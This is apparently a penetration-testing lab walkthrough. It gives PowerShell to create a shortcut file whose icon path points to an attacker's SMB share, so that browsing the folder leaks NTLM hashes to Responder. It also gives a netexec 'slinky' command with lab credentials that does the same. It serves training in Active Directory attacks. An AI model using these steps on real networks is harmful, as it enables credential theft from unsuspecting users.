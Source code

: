 Run PowerShell in Admin and create a file in this fashion

`$objShell = New-Object -ComObject WScript.shell` 
`$lnk = $objShell.CreateShortcut("C:\test.lnk")` 
`$lnk.TargetPath = "\\192.168.138.149\@test.png"`  The IP here is the IP of your attack machine
`$lnk.WindowStyle = 1` 
`$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"` 
`$lnk.Description = "Test"` 
`$lnk.HotKey = "Ctrl+Alt+T"` 
`$lnk.Save()`

This actually misuses the icon in file explorer by forcing it to try and reach out to a share drive to get the icon image.  When you have responder running, this is just like connecting to a share drive.  This means the file needs to be as high on the list as possible so the icon is loaded

`netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149`
This netexec/CME tool will also do the same thing.  Server is the attacker IP, name is the name of the file, the Module is slinky
